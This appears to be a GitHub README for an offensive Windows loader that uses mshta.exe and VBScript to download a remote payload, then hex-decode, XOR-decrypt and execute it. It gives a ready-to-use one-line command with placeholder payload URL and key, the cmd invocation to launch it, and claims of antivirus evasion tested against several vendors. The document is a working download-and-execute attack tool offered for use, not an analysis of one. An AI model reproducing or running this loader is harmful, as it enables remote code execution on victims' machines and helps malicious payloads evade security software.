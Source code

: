 # MSHTA VBScript Download & Execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (**almost) memory execution       '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='

**mshta.exe will save in a temp file your decrypted payload and after the execution the temp file will be deleted
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_DECRYPT_KEY"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/5bjSQAY.gif)
</br>
[ScreenToGif](https://github.com/NickeManarin/ScreenToGif)

## Evasion Test
Tested on **Windows7/10** x64 with: *Avira*, *AVG*, *Avast*, *ESET32*, *Kaspersky*, *Panda*, *BitDefender* and *Windows Defender* (Win7/10) to launch a more *expansive malicous payload*, the only one who blocked was **BitDefender**.

## Use your creativity ;)
